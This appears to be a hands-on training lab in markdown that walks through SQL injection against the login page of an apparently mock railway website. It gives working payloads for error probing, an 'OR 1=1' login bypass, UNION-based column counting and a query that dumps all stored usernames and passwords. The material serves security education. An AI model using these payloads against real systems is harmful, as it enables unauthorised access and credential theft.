 # SQL Injection

**Soldier, attention to detail is critical throughout our entire mission, do not fail us!**

1. Navigate to website [NMBS EXN website](https://www.nmbs.exn.be/)

    https://www.nmbs.exn.be/

1. Navigate to the **Login Page** by clicking on `My NMBS`

    ![NMBS website](../../images/nmbs_profile.png)

    ![NMBS website](../../images/nmbs_login.jpg)

    <div class="purple">

    This is where the magic happens. Behind this login page lies a database, and every login attempt triggers a query to verify the username and password.
    
    **Let’s test its defenses.**
    </div>
    <br>


----

### Vulnerable or not?

First, we’ll test for SQL injection vulnerability.

1. Enter the following character in the **Username field**

    ```
    '
    ```

    Purpose: To see if the application throws a SQL error indicating the presence of an injection vulnerability.

    ![NMBS website](../../images/nmbs_login_injection.jpg)

    **Oh yes, success: the website is vulnerable against SQL injections**

### SQLi Exploit

1. Let’s probe deeper into the SQL injection vulnerability:

    ```
    ' OR 1=1 -- '
    ```

    **Remark**:  `-- ‘` =   two dashes, one space and one single quote.

    **Result**: Success, the website logs in as the first user in the database, which is Freddie Guilty. Congrats, you successfully bypassed the website authenitcation.

    ![NMBS website](../../images/freddie_guilty.jpg)

    <div class="info">

    **Payload**: This is a classic SQL injection technique used to bypass authentication. Effect: The `OR 1=1` condition **always** evaluates to **true**, effectively bypassing the password check. 
    The `-- '` comments out the rest of the query, so the password condition check performed by the code is actually ignored.
    </div>


    <br>

    <div class="purple">

    Now that you’ve gained access, it’s time to gather information about the users of this site. **Where would this information be stored?**
    
    
    > Go to the `Mijn persoonlijke gegevens` page and have a look around.
    </div>    


---


### Extract data from the database

1. First, determine the number of columns in the database. 

    This is a **trial and error**!
    
    Let's try with 6 columns:

    ```
    ' UNION SELECT 1,2,3,4,5,6 –- '
    ```

    Keep using trial and error until you discover the correct number.
        

1. Answer: 

    ```
    ' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 -- ' 
    ```

    Navigate to the `Mijn persoonlijke gegevens` page.

    ![NMBS website](../../images/nmbs_union_select.png)

    <div class="purple">

    Notice: each data **field** has now been replaced with a number. This number matches the column ID within the User tabel stored in the SQL Database.
    </div>

---

### Construct a SQL query to extract all usernames and passwords

1. Dump the entire database using the following command:

    ```
    ' UNION SELECT 1, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20) AS first_part), 3, 4, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 20) AS second_part), 6, 7, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 40) AS third_part), 9, 10, 11 -- t'
    ```

    ![NMBS website](../../images/nmbs_dump.png)
    
    <div class="purple">

    **Well done!** You’ve extracted the complete database with all the users and their passwords. 
    </div>

<br>

![NMBS website](../../images/sqli-attack.jpg)

<br>

<div class="info">

Details about the SQL Query if you are intrigued:

**Formatting**: we use `<br>` **HTML tag** between all users instead off a semicolon `;` to obtain a neatly formatted output.

**Data truncation**: The command splits the output into different parts and display it in **fields** `5` and `8`. If you split the data by 20 users, you won’t hit the **maximum field size** limit:

- The first GROUP_CONCAT fetches the first 20 users and concatenates their ID, username, and password.

- The second GROUP_CONCAT does the same for users 21 to 40.

- The third GROUP_CONCAT handles users 41 to 60.

</div>



    